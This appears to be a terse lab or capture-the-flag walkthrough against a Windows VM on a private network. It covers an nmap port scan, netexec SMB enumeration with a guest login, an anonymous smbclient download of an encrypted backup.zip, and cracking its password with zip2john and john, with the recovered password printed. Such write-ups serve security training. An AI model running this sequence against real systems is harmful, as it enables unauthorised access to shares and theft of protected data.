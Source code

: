 url=192.168.2.221

`nmap -p- -sV -T4 192.168.2.221`

```txt
Nmap scan report for 192.168.2.221
Host is up (0.00016s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



```text
netexec smb 192.168.2.221             
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder protocols
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
[*] Creating missing folder logs/sam
[*] Creating missing folder logs/lsa
[*] Creating missing folder logs/ntds
[*] Creating missing folder logs/dpapi
[*] Creating default workspace
[*] Initializing LDAP protocol database
[*] Initializing WMI protocol database
[*] Initializing SSH protocol database
[*] Initializing MSSQL protocol database
[*] Initializing NFS protocol database
[*] Initializing VNC protocol database
[*] Initializing SMB protocol database
[*] Initializing WINRM protocol database
[*] Initializing FTP protocol database
[*] Initializing RDP protocol database
[*] Copying default configuration file
SMB         192.168.2.221   445    VM11             [*] Windows 10 / Server 2019 Build 19041 x64 (name:VM11) (domain:VM11) (signing:False) (SMBv1:False)
```

`netexec smb 192.168.2.221 -u guest -p '' --shares`
```
SMB         192.168.2.221   445    VM11             [*] Windows 10 / Server 2019 Build 19041 x64 (name:VM11) (domain:VM11) (signing:False) (SMBv1:False) 
SMB         192.168.2.221   445    VM11             [+] VM11\guest: (Guest)
SMB         192.168.2.221   445    VM11             [*] Enumerated shares
SMB         192.168.2.221   445    VM11             Share           Permissions     Remark
SMB         192.168.2.221   445    VM11             -----           -----------     ------
SMB         192.168.2.221   445    VM11             ADMIN$                          Remoteverwaltung
SMB         192.168.2.221   445    VM11             C$                              Standardfreigabe
SMB         192.168.2.221   445    VM11             IPC$            READ            Remote-IPC
SMB         192.168.2.221   445    VM11             Share           READ           
```

smbclient //192.168.2.221/Share -N

dir
  .                                  DR        0  Tue Jan 24 15:31:51 2023
  ..                                 DR        0  Tue Jan 24 15:31:51 2023
  backup.zip                          A  7456077  Mon Jan 23 13:21:32 2023
  desktop.ini                       AHS       46  Mon Jan 23 10:06:37 2023

get backup.zip

is encrypted

zip2john backup.zip > hash.txt


john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Password: !!!sagitario)))

Now can be unzpiped.

